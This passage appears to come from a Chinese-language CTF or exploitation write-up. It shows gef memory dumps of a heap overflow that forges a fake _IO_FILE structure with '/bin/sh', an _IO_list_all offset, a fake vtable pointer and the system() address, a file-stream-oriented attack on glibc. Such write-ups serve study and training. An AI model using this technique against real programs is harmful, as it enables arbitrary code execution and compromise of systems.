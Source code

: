 ```python
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};
```

通过堆溢出覆盖的数据：
```python
gef➤  x/16gx 0x55abb0545550-0x10
0x55abb0545540:	0x4444444444444444	0x4444444444444444
0x55abb0545550:	0x000000210000007b	0x0000000000000000
0x55abb0545560:	0x0068732f6e69622f	0x0000000000000061 => bin/sh    size  相当于 fake chunk 吧 smallbin
0x55abb0545570:	0x000000000000ddaa	0x00007f3955dc2510 => io_list_all-0x10
0x55abb0545580:	0x0000000000000000	0x0000000000000000
0x55abb0545590:	0x0000000000000000	0x0000000000000000
0x55abb05455a0:	0x0000000000000000	0x0000000000000000
0x55abb05455b0:	0x0000000000000000	0x0000000000000000
gef➤  
0x55abb05455c0:	0x0000000000000000	0x0000000000000000
0x55abb05455d0:	0x0000000000000000	0x0000000000000000
0x55abb05455e0:	0x0000000000000000	0x0000000000000000
0x55abb05455f0:	0x0000000000000000	0x0000000000000000
0x55abb0545600:	0x000055abb0545630	0x0000000000000000  
0x55abb0545610:	0x0000000000000000	0x0000000000000000
0x55abb0545620:	0x0000000000000001	0x0000000000000000
0x55abb0545630:	0x0000000000000000	0x000055abb0545658 => vtable_addr 
gef➤  
0x55abb0545640:	0x0000000000000001	0x0000000000000002 
0x55abb0545650:	0x0000000000000003	0x0000000000000000
0x55abb0545660:	0x0000000000000000	0x0000000000000000
0x55abb0545670:	0x00007f3955a42390	0x0000000000000000 => system addr 
0x55abb0545680:	0x0000000000000000	0x0000000000000000
0x55abb0545690:	0x0000000000000000	0x0000000000000000
0x55abb05456a0:	0x0000000000000000	0x0000000000000000
```
看一下我们伪造的文件结构
```python
gef➤  p *(struct _IO_FILE_plus*)0x55abb0545560
$5 = {
  file = {
    _flags = 0x6e69622f, 
    _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>, 
    _IO_read_end = 0xddaa <error: Cannot access memory at address 0xddaa>, 
    _IO_read_base = 0x7f3955dc2510 "", 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x0, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x0, 
    _fileno = 0x0, 
    _flags2 = 0x0, 
    _old_offset = 0x0, 
```